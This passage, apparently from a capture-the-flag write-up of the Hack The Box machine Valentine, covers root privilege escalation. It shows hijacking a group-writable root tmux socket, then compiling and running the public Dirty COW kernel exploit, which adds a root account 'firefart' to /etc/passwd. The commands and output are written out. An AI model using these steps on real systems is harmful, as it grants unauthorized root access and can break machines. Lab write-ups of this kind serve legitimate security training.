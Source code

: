 If we look at the permissions for the socket, it’s owned by room, but its group is hype, and the file is readable by group:
```
hype@Valentine:~$ ls -l /.devs
total 0
srw-rw---- 1 root hype 0 Jul 25 15:07 dev_sess
```

So we can connect to the session the same way hype did, with -S:
`tmux -S /.devs/dev_sess`
Then we can get the root shell.

Or we can try the dirty cow exploits.
After looking over a few, selected one that would add a root user to the passwd file:
```
root@kali# searchsploit -m exploits/linux/local/40839.c
  Exploit: Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
      URL: https://www.exploit-db.com/exploits/40839/
     Path: /usr/share/exploitdb/exploits/linux/local/40839.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: ~/hackthebox/valentine-10.10.10.79/40839.c
```

Uploaded to the box, compile, and run:
```
hype@Valentine:/dev/shm$ gcc -pthread dc.c -o c -lcrypt

hype@Valentine:/dev/shm$ file c
c: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xe2dea237b60ba9dc122a44d0505f9796b0b8a159, not stripped
hype@Valentine:/dev/shm$ chmod +x c
hype@Valentine:/dev/shm$ ./c
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fifdjzBMn8d5E:0:0:pwned:/root:/bin/bash

mmap: 7f004ef9b000


hype@Valentine:/dev/shm$ su firefart
Password:

firefart@Valentine:/dev/shm# id
uid=0(firefart) gid=0(root) groups=0(root)
```

PS: in this place, kernel exploits would sometimes broken the machine and it would not reversible.
